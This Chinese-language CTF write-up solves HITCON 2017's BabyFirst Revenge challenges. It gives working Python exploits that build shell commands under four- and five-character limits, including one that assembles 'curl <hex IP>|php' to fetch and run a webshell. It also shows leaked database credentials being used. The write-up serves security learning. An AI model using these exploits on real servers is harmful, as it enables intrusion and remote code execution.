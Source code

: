 ```yaml
---
comments: true
title: HITCON CTF 2017 BabyFirst Revenge and v2 writeup
date: 2017-11-12 17:14:27
description: 绕过四个字符限制getshell
---
```


> from HITCON CTF 2017
> 2017/11/04 02:00 UTC ~ 2017/11/06 02:00 UTC
>
> https://ctf2017.hitcon.org/

### BabyFirst Revenge

> Do you remember [BabyFirst](https://github.com/orangetw/My-CTF-Web-Challenges#babyfirst) from HITCON CTF 2015?
>
> This is the harder version!
>
> <http://52.199.204.34/>

#### 源码

```php
<?php
    $sandbox = '/www/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
    @mkdir($sandbox);
    @chdir($sandbox);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 5) {
        @exec($_GET['cmd']);
    } else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf ' . $sandbox);
    }
    highlight_file(__FILE__);
```

#### 解法

详细说明：https://findneo.github.io/171110Bypass4CLimit/ 

拿到shell后在`/home/fl4444g/README.txt`  得到数据库配置信息，然后连接数据库得到flag。

```python
http://52.199.204.34/sandbox/___MD5___of___ip/shell.php?cmd=cat%20/home/fl4444g/README.txt
#    Flag is in the MySQL database
#fl4444g / SugZXUtgeJ52_Bvr

http://52.199.204.34/sandbox/___MD5___of___ip/fun.php?cmd=mysql -ufl4444g -pSugZXUtgeJ52_Bvr -e "show databases;"
#    Database
#information_schema
#fl4gdb

http://52.199.204.34/sandbox/___MD5___of___ip/fun.php?cmd=mysql -ufl4444g -pSugZXUtgeJ52_Bvr -e "select concat(table_name) from information_schema.tables where table_schema='fl4gdb';"
#    concat(table_name)
#this_is_the_fl4g

http://52.199.204.34/sandbox/___MD5___of___ip/fun.php?cmd=mysql -ufl4444g -pSugZXUtgeJ52_Bvr -e "use fl4gdb;select * from this_is_the_fl4g"
#    secret
#hitcon{idea_from_phith0n,thank_you:)}
```



![](getFlag.png)

#### EXP

```python
# by https://findneo.github.io/
import requests as r
import hashlib
url = 'http://52.199.204.34/'
# 查询自己的IP
ip = r.get('http://ipv4.icanhazip.com/').text.strip()
sandbox = url + 'sandbox/' + hashlib.md5('orange' + ip).hexdigest() + '/'

reset = url + '?reset'
cmd = url + '?cmd='
build = ['>cur\\',
         '>l\ \\',
         'ls>A',
         'rm c*',
         'rm l*',
         '>105\\',
         '>304\\',
         '>301\\',
         '>9\>\\',
         'ls>>A',
         'sh A',
         'php A'
         ]
# 如果目标服务器有GET，这个也是可以打的
# build = ['>GE\\',
#          '>T\\ \\',
#          'ls>A',
#          'rm G*',
#          'rm T*',
#          '>105\\',
#          '>304\\',
#          '>301\\',
#          '>9\>\\',
#          'ls>>A']
r.get(reset)
for i in build:
    s = r.get(cmd + i)
    print '[%s]' % s.status_code, s.url

s = r.get(sandbox + 'fun.php?cmd=uname -a')
print '\n' + '[%s]' % s.status_code, s.url
print s.text

```

#### 更多解答

https://github.com/orangetw/My-CTF-Web-Challenges#babyfirst-revenge

### BabyFirst Revenge v2

> BabyFirst Revenge v2
> This is the hardest version! Short enough?
>
> http://52.197.41.31/

#### 源码

```php
<?php
    $sandbox = '/www/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
    @mkdir($sandbox);
    @chdir($sandbox);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 4) {
        @exec($_GET['cmd']);
    } else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf ' . $sandbox);
    }
    highlight_file(__FILE__);
```

#### 解法

这题是赛后看wp复现的，只到拿webshell的部分。

详细说明： https://findneo.github.io/171110Bypass4CLimit/

#### EXP

```python
#-*-coding:utf8-*-
# by https://findneo.github.io/
import requests as r
from time import sleep
import random
import hashlib
target = 'http://52.197.41.31/'

# 存放待下载文件的公网主机的IP
shell_ip = 'xx.xx.xx.xx'

# 本机IP
your_ip = r.get('http://ipv4.icanhazip.com/').text.strip()

# 将shell_IP转换成十六进制
ip = '0x' + ''.join([str(hex(int(i))[2:].zfill(2))
                     for i in shell_ip.split('.')])

reset = target + '?reset'
cmd = target + '?cmd='
sandbox = target + 'sandbox/' + \
    hashlib.md5('orange' + your_ip).hexdigest() + '/'

# payload某些位置的可选字符
pos0 = random.choice('efgh')
pos1 = random.choice('hkpq')
pos2 = 'g'  # 随意选择字符

payload = [
    '>dir',
    # 创建名为 dir 的文件

    '>%s\>' % pos0,
    # 假设pos0选择 f , 创建名为 f> 的文件

    '>%st-' % pos1,
    # 假设pos1选择 k , 创建名为 kt- 的文件,必须加个pos1，
    # 因为alphabetical序中t>s

    '>sl',
    # 创建名为 >sl 的文件；到此处有四个文件，
    # ls 的结果会是：dir f> kt- sl

    '*>v',
    # * 相当于 `ls` ，那么这条命令等价于 `dir f> kt- sl`>v ，
    #  dir是不换行的，所以这时会创建文件 v 并写入 f> kt- sl
    # 非常奇妙，这里的文件名是 v ，只能是v ，没有可选字符

    '>rev',
    # 创建名为 rev 的文件，这时当前目录下 ls 的结果是： dir f> kt- rev sl v

    '*v>%s' % pos2,
    # 魔法发生在这里： *v 相当于 rev v ，* 看作通配符。体会一下。
    # 这时pos2文件，也就是 g 文件内容是文件v内容的反转： ls -tk > f

    # 续行分割 curl 0x11223344|php 并逆序写入
    '>p',
    '>ph\\',
    '>\|\\',
    '>%s\\' % ip[8:10],
    '>%s\\' % ip[6:8],
    '>%s\\' % ip[4:6],
    '>%s\\' % ip[2:4],
    '>%s\\' % ip[0:2],
    '>\ \\',
    '>rl\\',
    '>cu\\',

    'sh ' + pos2,
    # sh g ;g 的内容是 ls -tk > f ，那么就会把逆序的命令反转回来，
    # 虽然 f 的文件头部会有杂质，但不影响有效命令的执行
    'sh ' + pos0,
    # sh f 执行curl命令，下载文件，写入木马。
]

s = r.get(reset)
for i in payload:
    assert len(i) <= 4
    s = r.get(cmd + i)
    print '[%d]' % s.status_code, s.url
    sleep(0.1)
s = r.get(sandbox + 'fun.php?cmd=uname -a')
print '[%d]' % s.status_code, s.url
print s.text

```

#### 更多解答

https://github.com/orangetw/My-CTF-Web-Challenges#babyfirst-revenge-v2

### 参考链接

[来自小密圈里的那些奇技淫巧](https://speakerdeck.com/player/f81159300925466c88335f3cf740beb6) 